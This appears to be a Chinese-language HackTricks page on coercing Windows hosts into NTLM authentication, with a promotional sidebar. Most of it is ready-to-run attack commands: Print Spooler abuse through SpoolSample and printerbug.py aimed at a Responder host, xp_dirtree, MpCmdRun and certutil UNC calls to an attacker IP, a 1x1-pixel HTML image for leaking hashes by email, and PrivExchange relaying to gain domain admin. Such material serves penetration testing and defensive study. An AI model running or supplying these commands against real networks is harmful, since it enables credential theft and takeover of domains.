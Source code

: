 # 强制使用 NTLM 特权身份验证

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS 红队专家）</strong></a><strong>！</strong></summary>

* 您在**网络安全公司**工作吗？ 您想看到您的**公司在 HackTricks 中被广告**吗？ 或者您想访问**PEASS 的最新版本或下载 PDF 格式的 HackTricks**吗？ 请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFT](https://opensea.io/collection/the-peass-family)收藏品
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* **加入** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或在 **Twitter** 上关注我 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**。**
* **通过向 [hacktricks 仓库](https://github.com/carlospolop/hacktricks) 和 [hacktricks-cloud 仓库](https://github.com/carlospolop/hacktricks-cloud) 提交 PR 来分享您的黑客技巧**。

</details>

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers) 是一个使用 MIDL 编译器以避免第三方依赖关系编写的 **远程身份验证触发器** 集合。

## Spooler Service 滥用

如果 _**打印池**_ 服务已**启用**，您可以使用一些已知的 AD 凭据向域控制器的打印服务器**请求**更新新的打印作业，并告诉它**将通知发送到某个系统**。\
请注意，当打印机将通知发送到任意系统时，它需要对该系统进行**身份验证**。 因此，攻击者可以使 _**打印池**_ 服务对任意系统进行身份验证，而服务将在此身份验证中**使用计算机帐户**。

### 查找域上的 Windows 服务器

使用 PowerShell 获取 Windows 服务器列表。 通常服务器是优先级较高的，因此让我们专注于这里：
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### 寻找正在监听的打印池服务

使用稍作修改的 @mysmartlogin（Vincent Le Toux）的 [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket)，查看打印池服务是否正在监听：
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
您也可以在Linux上使用rpcdump.py并查找MS-RPRN协议。
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### 请求服务对任意主机进行身份验证

您可以从[**这里编译SpoolSample**](https://github.com/NotMedic/NetNTLMtoSilverTicket)**。**
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
或者在Linux上使用[**3xocyte的dementor.py**](https://github.com/NotMedic/NetNTLMtoSilverTicket)或[**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### 结合无限制委派

如果攻击者已经成功入侵了一个启用了[无限制委派](unconstrained-delegation.md)的计算机，攻击者可以**让打印机对该计算机进行身份验证**。由于存在无限制委派，**打印机的计算机帐户的TGT将被保存在**具有无限制委派的计算机的**内存**中。由于攻击者已经控制了这台主机，他将能够**检索此票证**并滥用它（[传递票证](pass-the-ticket.md)）。

## RCP 强制身份验证

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

`PrivExchange` 攻击是在**Exchange Server `PushSubscription`功能**中发现的一个缺陷的结果。该功能允许Exchange服务器被任何具有邮箱的域用户强制对任何客户端提供的主机进行HTTP身份验证。

默认情况下，**Exchange服务以SYSTEM身份运行**并被赋予过多的特权（具体来说，在2019年之前的累积更新中，它具有**对域的WriteDacl特权**）。可以利用此缺陷来实现**将信息中继到LDAP，随后提取域NTDS数据库**。在无法中继到LDAP的情况下，仍然可以利用此缺陷来中继和对域内的其他主机进行身份验证。成功利用此攻击将立即授予具有任何经过身份验证的域用户帐户的域管理员访问权限。

## 在Windows内部

如果您已经在Windows机器内部，您可以使用以下命令强制Windows使用特权帐户连接到服务器：

### Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL

### MSSQL
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
或者使用另一种技术：[https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

可以使用 certutil.exe lolbin（Microsoft 签名的二进制文件）来强制执行 NTLM 认证：
```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```
## HTML注入

### 通过电子邮件

如果您知道要入侵的计算机中登录用户的**电子邮件地址**，您可以发送一封带有**1x1像素图像**的电子邮件，例如
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
### MitM

如果您可以对计算机执行中间人攻击，并在他将要查看的页面中注入HTML，您可以尝试在页面中注入如下图像：
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## 破解 NTLMv1

如果你能捕获 [NTLMv1 挑战，请阅读此处如何破解它们](../ntlm/#ntlmv1-attack)。\
_请记住，为了破解 NTLMv1，你需要将 Responder 挑战设置为 "1122334455667788"_
